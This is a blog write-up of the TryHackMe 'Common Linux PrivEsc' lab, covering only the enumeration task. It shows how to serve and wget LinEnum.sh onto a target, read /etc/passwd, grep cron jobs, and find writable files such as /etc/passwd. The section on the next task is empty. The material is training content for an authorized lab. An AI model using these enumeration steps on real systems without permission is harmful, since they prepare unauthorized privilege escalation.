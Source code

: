```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks **1**, **2** and **3** don't need explanation.

## Task 4

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

<p class="answer">As we can observe, there are 8 user[x] in the system.</p>

For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shels there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

**There are 4 shells in the system**

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

**As shown in this output, the `autoscript.sh` file is located in `/home/user4/Desktop directory`**

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 font-weight : bold }
</style>
